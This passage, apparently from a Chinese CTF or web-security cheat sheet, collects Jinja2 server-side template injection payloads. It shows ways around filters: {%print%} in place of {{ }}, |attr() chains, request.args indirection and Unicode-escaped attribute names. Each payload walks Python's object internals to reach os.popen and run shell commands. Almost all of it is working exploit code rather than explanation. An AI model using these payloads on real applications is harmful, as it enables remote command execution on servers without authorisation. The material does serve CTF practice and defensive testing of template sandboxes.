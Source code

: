 也可以用 `{%print(......)%}` 的形式来代替`{{ }}`，如下：

```
{%print(''.__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls').read())%}
```

### 组合绕过

以下摘抄了S神的绕过姿势，tql。

* * *

#### 同时过滤了 . 和 \[\]

`|attr()`+`__getitem__`

**绕过姿势：** 

```
{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(77)|attr("__init__")|attr("__globals__")|attr("__getitem__")("os")|attr("popen")("ls")|attr("read")()}}
```

**等同于：** 

```
{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls').read()}}
```

#### 同时过滤了 __ 、点. 和 \[\]

`__getitem__`+`|attr()`+`request`

```
{{()|attr(request.args.x1)|attr(request.args.x2)|attr(request.args.x3)()|attr(request.args.x4)(77)|attr(request.args.x5)|attr(request.args.x6)|attr(request.args.x4)(request.args.x7)|attr(request.args.x4)(request.args.x8)(request.args.x9)}}&x1=__class__&x2=__base__&x3=__subclasses__&x4=__getitem__&x5=__init__&x6=__globals__&x7=__builtins__&x8=eval&x9=__import__("os").popen('ls /').read()
```

**相当于：** 

```
{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}
```

#### 配合Unicode编码绕过很多过滤

```
'  request  {{  _  %20(空格)  [  ]  .  __globals__   __getitem__
```

我们用`{%...%}`绕过对 `{{` 的过滤，用`|attr()`绕过`.`，并用unicode绕过对关键字的过滤，然后`__getitem__`绕过中括号。

**如下，后面的命令其实也可以换掉，但是没过滤，就先不换了：** 

```
{{()|attr("\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f")|attr("\u005f\u005f\u0062\u0061\u0073\u0065\u005f\u005f")|attr("\u005f\u005f\u0073\u0075\u0062\u0063\u006c\u0061\u0073\u0073\u0065\u0073\u005f\u005f")()|attr("\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f")(77)|attr("\u005f\u005f\u0069\u006e\u0069\u0074\u005f\u005f")|attr("\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f")|attr("\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f")("os")|attr("popen")("ls")|attr("read")()}}
```

